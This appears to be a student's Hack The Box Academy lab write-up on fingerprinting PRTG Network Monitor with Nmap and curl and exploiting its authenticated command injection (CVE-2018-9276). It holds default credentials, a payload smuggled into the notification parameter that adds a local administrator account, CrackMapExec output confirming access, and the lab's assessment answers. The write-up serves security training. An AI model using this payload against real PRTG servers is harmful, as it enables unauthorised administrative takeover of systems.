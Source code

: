 ```yaml
---
description: >-
  Agentless network monitor to monitor bandwidth usage, uptime and collect
  statistics from various hosts, including routers, switches, servers, and more.
---
```


# PRTG Network Monitor

## Intro

* PRTG was released, restricted to 100 sensors that can be used to monitor up to 20 hosts
* It works with an autodiscovery mode to scan areas of a network and create a device list
* it can gather further information from the detected devices using protocols such as ICMP, SNMP, WMI, NetFlow, and more
* Devices can also communicate with the tool via a REST API
* The software runs entirely from an AJAX-based website, but there is a desktop application available for Windows, Linux, and macOS
*

## Discovery/Footprinting/Enumeration

**discover PRTG from an Nmap scan**

```shell-session
sudo nmap -sV -p- --open -T4 10.129.201.50

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-22 15:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.06% done
Nmap scan report for 10.129.201.50
Host is up (0.11s latency).
Not shown: 65492 closed ports, 24 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp  open  ssl/http      Splunkd httpd
8080/tcp  open  http          Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)
8089/tcp  open  ssl/http      Splunkd httpd
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.17 seconds
```

typically found on common web ports such as 80, 443, or 8080.

we can see the service `Indy httpd 17.3.33.2830 (Paessler PRTG bandwidth monitor)` detected on port 8080.

PRTG also shows up in the EyeWitness scan we performed earlier. Here we can see that EyeWitness lists the default credentials `prtgadmin:prtgadmin`.( pre-filled login )

![EyeWitness](https://academy.hackthebox.com/storage/modules/113/prtg\_eyewitness.png)

Once we have discovered PRTG, we can confirm by browsing to the URL and are presented with the login page.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_login.png" alt=""><figcaption><p>http://10.129.201.50:8080/index.htm</p></figcaption></figure>

it seems to be PRTG version `17.3.33.2830` and is likely vulnerable to [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276) which is an authenticated command injection

Using `cURL` we can see that the version number is indeed `17.3.33.283`.

```shell-session
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version

  <link rel="stylesheet" type="text/css" href="/css/prtgmini.css?prtgversion=17.3.33.2830__" media="print,screen,projection" />
<div><h3><a target="_blank" href="https://blog.paessler.com/new-prtg-release-21.3.70-with-new-azure-hpe-and-redfish-sensors">New PRTG release 21.3.70 with new Azure, HPE, and Redfish sensors</a></h3><p>Just a short while ago, I introduced you to PRTG Release 21.3.69, with a load of new sensors, and now the next version is ready for installation. And this version also comes with brand new stuff!</p></div>
    <span class="prtgversion">&nbsp;PRTG Network Monitor 17.3.33.2830 </span>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_logged_in.png" alt=""><figcaption><p><code>prtgadmin:Password123</code></p></figcaption></figure>

### Leveraging Known Vulnerabilities

This excellent [blog post](https://www.codewatch.org/blog/?p=453) by the individual who discovered this flaw does a great job of walking through the initial discovery process and how they discovered it.

When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_notifications.png" alt=""><figcaption><p>Setup > Account Settings > Notifications</p></figcaption></figure>

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_add.png" alt=""><figcaption><p><code>Add new notification</code></p></figcaption></figure>

* Scroll down and tick EXECUTE PROGRAM
* Program File -> select `Demo exe notification - outfile.ps1`

we will add a new local admin user by entering `test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add`.

![edit settings](https://academy.hackthebox.com/storage/modules/113/prtg\_execute.png)

then click Save and we will be redirectoed to Notifications

<figure><img src="https://academy.hackthebox.com/storage/modules/113/prtg_pwn.png" alt=""><figcaption><p>New notification (pwn)</p></figcaption></figure>

click the `Test` button to run our notification and execute the command to add a local admin user. we will get a pop-up that says `EXE notification is queued up`.

Since this is a blind command execution, we won't get any feedback, so we'd have to either check our listener for a connection back or, in our case, check to see if we can authenticate to the host as a local admin.

We can use `CrackMapExec` to confirm local admin access. We could also try to RDP to the box, access over WinRM, or use a tool such as [evil-winrm](https://github.com/Hackplayers/evil-winrm) or something from the [impacket](https://github.com/SecureAuthCorp/impacket) toolkit such as `wmiexec.py` or `psexec.py`.

```shell-session
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG! 

SMB         10.129.201.50   445    APP03            [*] Windows 10.0 Build 17763 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.201.50   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

## Assessment

What version of PRTG is running on the target?

```
sudo nmap 10.129.249.52 -sV -T4                                                  
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-13 04:36 EDT
Nmap scan report for 10.129.249.52
Host is up (0.22s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8000/tcp open  ssl/http      Splunkd httpd
8080/tcp open  http          Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.57 seconds

```

_**18.1.37.13946**_

Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop

login using `prtgadmin:Password123`

<figure><img src="../../../.gitbook/assets/ภาพ (14).png" alt=""><figcaption><p><code>test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add</code></p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ภาพ (6).png" alt=""><figcaption><p>click the bell icon</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ภาพ (8).png" alt=""><figcaption><p>done</p></figcaption></figure>

```
sudo crackmapexec smb 10.129.249.52 -u prtgadm1 -p Pwn3d_by_PRTG! 
SMB         10.129.249.52   445    APP03            [*] Windows 10.0 Build 17763 x64 (name:APP03) (domain:APP03) (signing:False) (SMBv1:False)
SMB         10.129.249.52   445    APP03            [+] APP03\prtgadm1:Pwn3d_by_PRTG! (Pwn3d!)
```

